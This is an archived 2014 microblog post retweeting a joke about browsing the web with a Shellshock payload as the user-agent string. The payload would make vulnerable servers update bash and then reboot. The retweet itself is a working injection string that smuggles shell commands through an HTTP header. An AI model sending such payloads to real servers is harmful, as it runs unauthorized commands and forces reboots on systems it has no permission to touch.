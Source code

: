Title: micro
Category: micro
Date: 2014-09-26T17:38:32
Slug: 2014-09-26T17:38:32
TwitterId: 515556038792081409
TweetUrl: https://twitter.com/mark_philpot/status/515556038792081409

RT [@pixnbits](https://twitter.com/pixnbits): browsing the web with user agent
`() {.:;.}; yum -y update bash; apt-get -y update bash; reboot`
#shellshock